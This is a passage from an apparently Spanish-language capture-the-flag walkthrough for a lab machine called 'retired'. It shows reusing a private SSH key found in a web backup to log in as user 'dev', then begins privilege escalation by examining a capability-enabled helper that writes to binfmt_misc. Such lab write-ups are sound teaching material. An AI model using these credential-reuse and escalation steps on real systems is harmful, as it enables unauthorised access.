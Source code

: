 ```console
www-data@retired:/tmp$ unzip 2023-01-22_10-18-00-html.zip
www-data@retired:/tmp$ cd ./var/www/html
www-data@retired:/tmp/var/www/html$ cd dev
www-data@retired:/tmp/var/www/html/dev$ ls -la
drwx------ 2 www-data www-data 4096 Mar 11  2022 .ssh
drwx------ 2 www-data www-data 4096 Mar 11  2022 activate_license
drwx------ 3 www-data www-data 4096 Mar 11  2022 emuemu
```
Si nos copiamos su id_rsa del directorio .shh y le damos los permisos ```chmod 600 ir_rsa``` podemos acceder por ssh a dicho usuario.
```ssh -i id_rsa dev@10.10.11.154```

-------------------
# Part 7: Escalada de privilegios a root: reg_helper

En el home esta el bianrio activate_licens que explotamos antes, la flag y la carpeta emuemu (mencionada en la web)
```console
dev@retired:~/emuemu$ ls
Makefile  README.md  emuemu  emuemu.c  reg_helper  reg_helper.c  test
dev@retired:~/emuemu$ cat README.md 

EMUEMU es el software oficial de emulado para la consola OSTRICH
Despues de la instalación con 'make install', las ROMs de OSTRICH pueden ser ejecutados desde el terminal.
Por ejemplo la ROM llamada 'rom' se puede correr con './rom'
```
Tambien tenemos emuemu.c que simplemente imprime "EMUEMU está todavia en desarollo"
Luego tenemos reg_helper.c
```c
#define _GNU_SOURCE
int main(void) {
    char cmd[512] = { 0 };   // Buffer vario de 512 bytes "cmd"
    read(STDIN_FILENO, cmd, sizeof(cmd)); cmd[-1] = 0;   // Lee del standar imput el cmd
    int fd = open("/proc/sys/fs/binfmt_misc/register", O_WRONLY);  // Abre /proc/sys/fs/binfmt_misc/register para escritura
    if (-1 == fd)
        perror("open");
    if (write(fd, cmd, strnlen(cmd,sizeof(cmd))) == -1)   // Escribe el cmd dentro
        perror("write");
    if (close(fd) == -1)
        perror("close");
	return 0;}
```
El makefile tiene dos lineas interesantes:
```
setcap cap_dac_override=ep /usr/lib/emuemu/reg_helper
echo ':EMUEMU:M::\x13\x37OSTRICH\x00ROM\x00::/usr/bin/emuemu:' | tee /usr/lib/binfmt.d/emuemu.conf | /usr/lib/emuemu/reg_helper
```
Es decir mete en /usr/lib/binfmt.d/emuemu.conf esa linea rara ':EMUEMU:M::..' y de ahi a reg_helper, que dice que todo lo que le entre ira 
a /proc/sys/fs/binfmt_misc/register
